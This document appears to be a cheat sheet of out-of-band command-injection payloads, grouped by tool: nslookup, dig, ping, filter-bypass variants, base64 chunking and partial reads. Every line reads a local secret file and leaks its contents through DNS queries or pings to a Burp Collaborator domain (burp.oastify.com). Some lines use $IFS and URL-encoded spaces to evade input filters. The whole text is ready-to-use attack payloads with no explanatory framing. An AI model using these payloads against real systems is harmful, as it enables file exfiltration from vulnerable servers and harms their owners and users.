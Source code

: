 ## nslookup:

nslookup $(cat /home/vova/secret).burp.oastify.com
nslookup $(</home/vova/secret).burp.oastify.com
nslookup -q=cname $(cat /home/vova/secret).burp.oastify.com
nslookup -type=a $(cat /home/vova/secret).burp.oastify.com

## dig:

dig $(cat /home/vova/secret).burp.oastify.com
dig txt $(cat /home/vova/secret).burp.oastify.com
dig a $(cat /home/vova/secret).burp.oastify.com
dig @8.8.8.8 $(cat /home/vova/secret).burp.oastify.com

## ping:

ping -c 1 $(cat /home/vova/secret).burp.oastify.com
ping -c 1 $(</home/vova/secret).burp.oastify.com

## Combination of commands for bypass input:

nslookup $(cat$IFS/home/vova/secret).burp.oastify.com
nslookup $(< /home/vova/secret).burp.oastify.com

## encoding or additional bypass characters:

nslookup $(cat%20/home/vova/secret).burp.oastify.com
nslookup $(cat${IFS}/home/vova/secret).burp.oastify.com

## via base64 to split the output into parts (if the file is long):

nslookup $(base64 /home/vova/secret | head -c10).burp.oastify.com
nslookup $(base64 /home/vova/secret | tail -c10).burp.oastify.com

## Sectional information extraction:

nslookup $(head -c5 /home/vova/secret).burp.oastify.com
nslookup $(tail -c5 /home/vova/secret).burp.oastify.com

## Using an environment variable (if possible):

nslookup $(cat /home/$USER/secret).burp.oastify.com

